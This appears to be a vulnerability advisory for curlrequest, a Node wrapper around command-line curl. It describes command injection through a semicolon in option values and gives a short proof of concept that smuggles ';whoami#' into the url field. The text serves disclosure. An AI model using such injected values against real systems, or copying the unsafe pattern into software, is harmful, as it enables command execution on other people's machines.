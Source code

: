 # Overview

curlrequest is a curlrequest is a node wrapper for the command line curl.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the options values.

# Proof of Concept

```
var curl = require("curlrequest");

let userPayload = ";whoami#";
curl.request({ url: userPayload, pretend: true }, function(err, stdout, meta) {
  console.log("%s %s", meta.cmd, meta.args.join(" "));
});
```
